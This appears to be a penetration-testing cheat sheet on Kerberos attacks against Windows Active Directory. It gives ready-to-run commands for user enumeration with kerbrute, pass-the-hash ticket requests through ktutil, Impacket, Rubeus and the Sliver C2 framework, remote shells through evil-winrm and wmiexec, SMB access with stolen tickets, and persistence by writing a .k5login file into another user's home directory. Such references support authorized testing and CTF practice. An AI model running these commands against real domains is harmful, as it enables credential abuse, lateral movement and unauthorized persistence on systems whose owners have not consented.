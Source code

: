```yaml
---
title: "Kerberos"
date: 2024-7-2
tags: ["Kerberos", "Pass-The-Ticket", "Hash Cracking", "Rubeus", "Password Cracking", "Sliver", "Enumeration", "Ntlm", "Smb", "Kerbrute", "Pass-The-Hash", "Impacket", "Ticket Granting Ticket", "Domain Controller", "Active Directory", "Windows"]
---
```


### Users enum

{{< tab set1 tab1 active >}}kerbrute{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
kerbrute userenum --domain <DOMAIN> --dc <DC> <USERNAMES_FILE>
```

<small>*Ref: [kerbrute](https://github.com/ropnop/kerbrute)*</small>

{{< /tabcontent >}}

### Usernames generator

{{< tab set2 tab1 active >}}username-anarchy{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
./username-anarchy -i <USERS_FILE> | tee <USERNAMES_FILE>
```

<small>*Ref: [username-anarchy](https://github.com/urbanadventurer/username-anarchy)*</small>

{{< /tabcontent >}}

---

### Generate Kerberos ticket (From Linux)

{{< tab set3 tab1 active >}}Kinit{{< /tab >}}
{{< tab set3 tab2 >}}Impacket{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 1. Set up

```console
# Step 0: Installation
sudo apt install krb5-user cifs-utils
```

```console
# Step 1: Add domain controller to '/etc/hosts' (Try different order if not work)
<TARGET> <DC> <DOMAIN>
```

```console
# Step 2: Add domain controller as a DNS server to '/etc/resolv.conf' [optional]
nameserver <TARGET>
```

```console
# Step 3: Edit '/etc/krb5.conf' (All uppercase)

[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

```console
# Step 4: Sync time to domain controller
sudo ntpdate -s <DC>
```

#### 2a. With Password

```console
kinit <USER>
```

#### 2b. With NTLM hash

```console
ktutil
```

```console
add_entry -p <USER>@<DOMAIN> -k 1 -key -e rc4-hmac
```

```console
<HASH>
```

```console
write_kt <USER>.keytab
```

```console
exit
```

```console
kinit -V -k -t <USER>.keytab -f <USER>@<DOMAIN>
```

#### 3. Check ticket

```console
klist
```

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

```console
# With password
sudo ntpdate -s <DC> && impacket-getTGT '<DOMAIN>/<USER>'
```

```console
# With hash
sudo ntpdate -s <DC> && impacket-getTGT -hashes :<HASH> '<DOMAIN>/<USER>'
```

```console
# Import ticket
export KRB5CCNAME=<USER>.ccache
```

```console
# Check ticket
klist
```

{{< /tabcontent >}}

### Generate Kerberos ticket (From Windows)

{{< tab set4 tab1 active >}}rubeus{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
# With password
.\rubeus.exe asktgt /user:<USER> /password:'<PASSWORD>' /enctype:AES256 /domain:<DOMAIN> /dc:<DC> /ptt /nowrap
```

```console
# With hash
.\rubeus.exe asktgt /user:<USER> /rc4:'<HASH>' /domain:<DOMAIN> /dc:<DC> /ptt /nowrap
```

```console
# Check
klist
```

{{< /tabcontent >}}

### Generate Kerberos ticket (From C2)

{{< tab set5 tab1 active >}}Sliver{{< /tab >}}
{{< tabcontent set5 tab1 >}}

```console
# With password
rubeus -- 'asktgt /user:<USER> /password:<PASSWORD> /enctype:AES256 /domain:<DOMAIN> /dc:<DC> /ptt /nowrap'
```

```console
# With hash
rubeus -- 'asktgt /user:<USER> /rc4:<HASH> /domain:<DOMAIN> /dc:<DC> /ptt /nowrap'
```

```console
# Check
c2tc-klist
```

{{< /tabcontent >}}

---


### Winrm with Kerberos

{{< tab set6 tab1 active >}}evil-winrm{{< /tab >}}
{{< tab set6 tab2 >}}wmiexec{{< /tab >}}
{{< tabcontent set6 tab1 >}}

```console
# Step 1: Edit '/etc/krb5.conf' (All uppercase)

[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

```console
# Step 2: Connect
sudo ntpdate -s <DC> && evil-winrm -i <TARGET_DOMAIN> -r <DOMAIN>
```

{{< /tabcontent >}}
{{< tabcontent set6 tab2 >}}

```console
sudo ntpdate -s <DC> && impacket-wmiexec '<DOMAIN>/<USER>@<TARGET_DOMAIN>' -k -no-pass
```

{{< /tabcontent >}}

---

### Connect to SMB with Kerberos

```console
sudo ntpdate -s <DC> && impacket-smbclient '<DOMAIN>/<USER>@<TARGET_DOMAIN>' -k -no-pass
```

---

### Add Kerberos Access in Linux

```console
echo "<USER>@<DOMAIN>" > /home/<TARGET_USER>/.k5login
```
